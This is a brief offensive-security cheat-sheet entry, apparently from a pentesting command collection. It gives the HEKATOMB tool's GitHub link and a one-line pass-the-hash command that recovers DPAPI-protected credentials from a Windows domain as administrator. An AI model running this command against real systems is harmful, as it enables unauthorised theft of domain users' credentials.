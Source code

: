 # hekatomb

% hekatomb, dpapi

## hekatomb -
#plateform/windows  #target/local  #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 

https://github.com/Processus-Thief/HEKATOMB
```
hekatomb -hashes :<hash> <domain>/administrator@<ip> -debug 
```